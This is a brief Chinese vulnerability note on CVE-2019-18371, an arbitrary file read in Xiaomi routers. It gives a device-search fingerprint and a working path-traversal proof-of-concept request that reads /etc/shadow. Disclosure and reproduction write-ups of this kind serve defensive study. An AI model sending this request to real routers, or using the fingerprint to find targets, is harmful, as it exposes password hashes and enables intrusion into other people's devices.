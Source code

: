 # 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

# 小米 路由器 extdisks 任意文件读取漏洞 CVE-2019-18371

## 漏洞描述

小米 路由器存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器敏感信息

## 漏洞影响

```
小米 路由器
```

## 网络测绘

```
app="小米路由器"
```

## 漏洞复现

登录页面

![image-20220715110456566](/images/202207151106569.png)

验证POC

```
/api-third-party/download/extdisks../etc/shadow
```

![](/images/202207151106800.png)


